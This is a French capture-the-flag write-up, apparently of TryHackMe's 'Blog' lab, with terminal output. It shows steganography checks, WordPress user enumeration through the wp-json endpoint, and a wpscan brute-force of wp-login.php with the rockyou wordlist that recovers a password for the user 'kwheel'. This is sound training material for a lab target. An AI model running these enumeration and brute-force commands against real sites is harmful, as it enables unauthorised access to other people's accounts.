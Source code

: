 L'utilitaire zbarimg permet de le lire sans utiliser son smartphone.
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Blog]
└─$ zbarimg check-this.png 
QR-Code:https://qrgo.page.link/M6dE
scanned 1 barcode symbols from 1 images in 0 seconds
```
Le fichier **tswift.mp4** est un morceau d'un clip de musique de taylor swift avec un petit troll dedans ;).
Le fichier **Alice-White-Rabbit.jpg** est une image du lapin blanc du compte Alice aux pays des merveilles.
Je vais essayer de voir si il n'y a pas quelque chose de cacher dans cette image :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg  
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
```
Il y a un fichier txt:
```
You've found yourself in a rabbit hole, friend.
```
Mauvaise piste donc !
## wpscan
Un premier scan pour voir un peux, je ne le copie pas ici car il est beaucoup trop long !!!
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY
```
Il trouve quelques infos, avec l'option **--enumerate u** on retrouve les users, mais je vais vous montrer une autre methode pour obtenir ces infos sans outil !

La page **http://blog.thm/wp-json/wp/v2/users** nous montre quelques informations utiles !
```
[{"id":1,"name":"Billy Joel","url":"","description":"","link":"http:\/\/blog.thm\/author\/bjoel\/","slug":"bjoel","avatar_urls":{"24":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=24&d=mm&r=g","48":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=48&d=mm&r=g","96":"http:\/\/0.gravatar.com\/avatar\/9943fa6dfe2ab4088f676ff75dc1f848?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users"}]}},{"id":3,"name":"Karen Wheeler","url":"","description":"","link":"http:\/\/blog.thm\/author\/kwheel\/","slug":"kwheel","avatar_urls":{"24":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=24&d=mm&r=g","48":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=48&d=mm&r=g","96":"http:\/\/0.gravatar.com\/avatar\/3e7bf1e5f26496543c964dc04515bb6a?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users\/3"}],"collection":[{"href":"http:\/\/blog.thm\/wp-json\/wp\/v2\/users"}]}}]
```
Ici je trouve 2 comptes: 
Le compte de Billy Joel avec l'identifiant **bjoel** et le compte de Karen Wheeler avec l'identifiant **kwheel**

# Brute Force de la page wp-login.php!
Je vais essayer de bruteforce la page de login de wordpress. Je vais utiliser wpscan pour faire cette tâche aussi.
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY -U bjoel --passwords /home/kali/Wordlist/rockyou.txt
```
Il ne trouve rien, je vais test avec le compte de Karen !
```
wpscan --url http://blog.thm/wp-login.php -v --api-token=MYKEY -U kwheel --passwords /home/kali/Wordlist/rockyou.txt
```
Bingo il me trouve un mot de passe :
```
[!] Valid Combinations Found:
 | Username: kwheel, Password: c*******1
```